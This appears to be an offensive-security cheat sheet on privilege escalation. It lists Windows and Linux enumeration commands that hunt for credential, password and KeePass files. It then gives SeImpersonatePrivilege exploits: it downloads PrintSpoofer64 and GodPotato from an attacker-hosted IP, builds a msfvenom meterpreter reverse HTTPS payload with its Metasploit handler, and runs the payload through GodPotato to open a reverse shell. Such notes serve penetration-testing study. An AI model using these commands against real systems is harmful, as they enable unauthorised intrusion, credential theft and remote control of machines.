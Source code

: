 # 04 - Privilege Escalation

Index
- [System Enumeration](#System-Enumeration)
    - [Windows](#Windows)
    - [Linux](#Linux)
- [SeImpersonatePrivilege](#SeImpersonatePrivilege)
    - [Exploit by PrintSpoofer64](#Exploit-by-PrintSpoofer64)
    - [Exploit by GodPotato](#Exploit-by-GodPotato)

## System Enumeration
### General Info
- Search for:
    - user privileges and system configuration
    - git repository and logs
    - archive file like ZIP, BAK, KDBX (and crack it!)
    - web configuration file (CMS config, DB connection file)
    - enumeration tool output

### Windows
Base commands for Windows:
``` powershell
whoami                                  ## domain\username
whoami /groups                          ## my groups
whoami /priv                            ## user's local privileges
Get-LocalUser                           ## local users list
Get-LocalGroup                          ## local groups list
Get-LocalGroupMember $GROUP_NAME        ## members list
net user $USERNAME                      ## user information
net user /domain                        ## domain user list

systeminfo                              ## OS version, domain config, ...
ipconfig /all                           ## network configuration
route print                             ## local routing table
netstat -nao                            ## acctive connections and listening ports
Get-ChildItem Env:                      ## environment vars -- tips: informations hidden
Get-Process                             ## process list

Get-History                             ## history
(Get-PSReadlineOption).HistorySavePath  ## read the content to access the history
```
Search information in file:
``` powershell
Get-ChildItem -Path c:\ -Include *.txt -File -Recurse -ErrorAction SilentlyContinue                             ## search for interesting file
Get-ChildItem -Path c:\ -Include *.pdf -File -Recurse -ErrorAction SilentlyContinue                             ## search for interesting file
Get-ChildItem -Path c:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue                            ## search for interesting file
Get-ChildItem -Path c:\ -Include *.git -File -Recurse -ErrorAction SilentlyContinue 
Get-ChildItem -Path c:\ -Include credential* -File -Recurse -ErrorAction SilentlyContinue                       ## search for interesting file
Get-ChildItem -Path c:\ -Include password* -File -Recurse -ErrorAction SilentlyContinue                         ## search for interesting file

Get-ChildItem -Path c:\ -Include *.git* -File -Recurse -ErrorAction SilentlyContinue                            ## search for git repo
git log                                                                                                         ## check information in log
git view $LOGID                                                                                                 ## check commit log content
```

Other for Windows:
``` powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname ## installed software
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname             ## installed software
```

Tools for Windows:
 - winPEAS.exe
 - Seatbelt.exe

### Linux
Base commands for Linux:
``` bash
id
env
history
cat /etc/passwd                             ## user list
ls -la /home                                ## home
ps ax                                       ## process list
uname -na                                   ## os version
ss -anp                                     ## connections
cat /etc/crontab                            ## main crontab
ls -la /etc/cron*                           ## crontab script
ls -la /etc/sudo*
cat /etc/fstab
find / -writable -type d 2>/dev/null        ## writable dir
find / -perm -u=s -type f 2>/dev/null

find ./ -type f -name "*.txt" 2>/dev/null   ## file by extension
find ./ -type f -name "*.tar" 2>/dev/null   ## file by extension
find ./ -type f -name "*.bak" 2>/dev/null   ## file by extension
find ./ -type f -name "*.zip" 2>/dev/null   ## file by extension
find ./ -type f -name "*.gz" 2>/dev/null    ## file by extension

lsmod
/sbin/modinfo $driver_name
dpkg -l
```

Tools for Linux:
 - unix-privesc-check
 - linpeas

## SeImpersonatePrivilege
### Requirements
- Need access to the target system.
- Verify user's privileges:
``` powershell
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled     ## possibly vulnerable
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

### Exploit by PrintSpoofer64
PrintSpoofer64.exe can exploit the local system and elevate the privileges.
``` powershell
iwr http://192.168.1.1:8888/PrintSpoofer64.exe -outfile PrintSpoofer64.exe      ## download on target system
.\PrintSpoofer64.exe -i -c powershell.exe                                       ## exploit
```

### Exploit by GodPotato
GodPotato.exe can exploit the local system and run command with elevate privilege. Useful link: https://jlajara.gitlab.io/Potatoes_Windows_Privesc.

Generate a payload and a listester:
``` bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=$KALI LPORT=443 -f exe -o payload.exe   ## generate payload
msfconsole                                                                                      ## open msfconsole
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_https                 ## set payload
msf6 exploit(multi/handler) > set LHOST $KALI
msf6 exploit(multi/handler) > set LPORT 443
msf6 exploit(multi/handler) > run
```

Exploit the system:
``` powershell
iwr http://192.168.1.1:8888/payload.exe -outfile payload.exe                                    ## download payload on target system
iwr http://192.168.1.1:8888/GodPotato.exe -outfile GodPotato.exe                                ## download exploit on target system
./GodPotato.exe -cmd "powershell /c ./payload.exe"                                              ## exploit: open a reverse shell
```
